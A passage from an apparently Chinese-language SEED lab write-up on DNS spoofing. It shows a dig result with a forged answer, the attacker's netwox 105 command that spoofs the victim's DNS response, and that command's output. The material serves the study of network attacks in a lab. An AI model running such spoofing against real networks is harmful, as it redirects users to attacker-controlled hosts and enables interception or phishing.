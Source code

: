 ```shell
root@DNS_User:/# dig www.hust.edu.cn

; <<>> DiG 9.10.3-P4-Ubuntu <<>> www.hust.edu.cn
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 19258
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 1

;; QUESTION SECTION:
;www.hust.edu.cn.		IN	A

;; ANSWER SECTION:
www.hust.edu.cn.	600	IN	A	172.18.0.1

;; AUTHORITY SECTION:
ns.hust.edu.cn.		600	IN	NS	ns.hust.edu.cn.

;; ADDITIONAL SECTION:
ns.hust.edu.cn.		600	IN	A	201.91.180.3

;; Query time: 17 msec
;; SERVER: 172.18.0.3#53(172.18.0.3)
;; WHEN: Sat Apr 30 16:38:52 CST 2022
;; MSG SIZE  rcvd: 88
```

![1.3.3.错误的DNS解析结果](https://raw.githubusercontent.com/BIIIANG/pic/main/202204301705475.png)

- 攻击机的`netwox`输出如下所示：

```shell
[04/30/22]seed@VM:~/.../2022.04.15.DNS$ sudo netwox 105 -h "www.hust.edu.cn" -H "172.18.0.1" -a "ns.hust.edu.cn" -A "201.91.180.3" -d br-e4a075733e38 -T 600 -f "src host 172.18.0.2"
DNS_question____________________________________________________.
| id=19258  rcode=OK             opcode=QUERY                   |
| aa=0 tr=0 rd=1 ra=0  quest=1  answer=0  auth=0  add=1         |
| www.hust.edu.cn. A                                            |
| . OPT UDPpl=4096 errcode=0 v=0 ...                            |
|_______________________________________________________________|
DNS_answer______________________________________________________.
| id=19258  rcode=OK             opcode=QUERY                   |
| aa=1 tr=0 rd=1 ra=1  quest=1  answer=1  auth=1  add=1         |
| www.hust.edu.cn. A                                            |
| www.hust.edu.cn. A 600 172.18.0.1                             |
| ns.hust.edu.cn. NS 600 ns.hust.edu.cn.                        |
| ns.hust.edu.cn. A 600 201.91.180.3                            |
|_______________________________________________________________|
```

![1.3.4.netwox的欺骗过程](https://raw.githubusercontent.com/BIIIANG/pic/main/202204301705873.png)

- 使用`Wireshark`截取的数据包`1.3.1-直接欺骗用户响应.pcapng `如下所示，数据包`1`为`DNS`询问，数据包`4`为伪造的`DNS`响应：
